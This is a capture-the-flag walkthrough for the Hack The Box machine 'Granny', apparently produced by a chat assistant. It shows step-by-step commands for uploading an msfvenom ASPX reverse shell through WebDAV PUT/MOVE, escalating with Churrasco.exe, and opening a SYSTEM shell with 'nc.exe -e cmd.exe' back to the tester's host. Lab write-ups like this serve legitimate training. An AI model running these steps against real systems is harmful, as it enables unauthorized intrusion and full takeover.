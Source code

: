 Absolutely! Here’s your clean, markdown-formatted walkthrough for **HTB: Granny**, with all [HTTP](HTTP) references properly hyperlinked and grouped by stage:

---

# 👵 HTB: Granny – Walkthrough

**Machine Info:**
- **IP**: `10.129.83.212`
- **OS**: [Windows Server 2003](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - [HTTP](HTTP) WebDAV PUT/MOVE
  - File extension bypass via `.txt → .aspx`
  - Local PrivEsc using `Churrasco.exe`

---

## 🔍 Reconnaissance

### 🔎 Fast Port Scan
```bash
nmap -p- -T5 10.129.83.212
```
Only **port 80 ([HTTP](HTTP))** is open.

### 📌 Service Enumeration
```bash
nmap -p 80 -A 10.129.83.212 -v
```
- **Service**: Microsoft IIS httpd 6.0
- **Extensions**: WebDAV (with support for `PUT`, `MOVE`, `PROPFIND`, etc.)

---

## 🧪 WebDAV Enumeration

### 🛠️ Check WebDAV Methods
```bash
davtest -url http://10.129.83.212
```

Result:
- Can **upload** files (`PUT`)
- Can **rename/move** files (`MOVE`)
- But only `.html` and `.txt` can be **executed**
- **Workaround**: upload `.aspx` as `.txt`, then `MOVE` it back to `.aspx`

[🔗 WebDAV Exploit Reference](https://vk9-sec.com/exploiting-webdav/)

---

## 🚀 Exploitation – Upload Reverse Shell

### 1️⃣ Create ASPX Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f aspx -o shell.aspx
mv shell.aspx shell.txt
```

### 2️⃣ Upload Using [HTTP](HTTP) `PUT`
```bash
curl -X PUT http://10.129.83.212/shell.txt --data-binary @shell.txt
```

### 3️⃣ Rename Using [HTTP](HTTP) `MOVE`
```bash
curl -X MOVE --header 'Destination:http://10.129.83.212/shell.aspx' http://10.129.83.212/shell.txt
```

### 4️⃣ Start Listener
```bash
nc -nvlp 4444
```

### 5️⃣ Trigger Shell
Visit in browser:
```
http://10.129.83.212/shell.aspx
```

---

## 🐚 Shell Gained
```cmd
whoami
nt authority\network service
```

---

## 🚪 Privilege Escalation – SYSTEM

### 1️⃣ System Info
```cmd
systeminfo
```
- OS: **Windows Server 2003**
- Vulnerable to token impersonation (Churrasco)

### 2️⃣ Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
mv churrasco.exe churrasco.txt
```

### 3️⃣ Upload via [HTTP](HTTP)
```bash
curl -X PUT http://10.129.83.212/churrasco.txt --data-binary @churrasco.txt
```

### 4️⃣ Rename in Shell
```cmd
ren churrasco.txt churrasco.exe
```

### 5️⃣ Upload `nc.exe`
```bash
cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop
mv nc.exe nc.txt
curl -X PUT http://10.129.83.212/nc.txt --data-binary @nc.txt
ren nc.txt nc.exe
```

---

## 💥 SYSTEM Shell

### 1️⃣ Listener
```bash
nc -nvlp 5555
```

### 2️⃣ Execute Reverse Shell
```cmd
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.13 5555"
```

---

## 🎯 Proof

### 🧍‍♂️ User Flag
```cmd
type C:\Documents and Settings\lakis\Desktop\user.txt
```

### 👑 Root Flag
```cmd
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Summary

| Phase              | Method                                         |
|-------------------|------------------------------------------------|
| Recon              | Found IIS 6.0 with [HTTP](HTTP) WebDAV        |
| Initial Access     | Used PUT/MOVE to bypass extension restriction |
| Privilege Escalation | Token impersonation using `Churrasco.exe` |
| Final Access       | SYSTEM shell via netcat                       |

---

Let me know if you’d like this converted into a downloadable Markdown doc or exported for reporting 💾📄
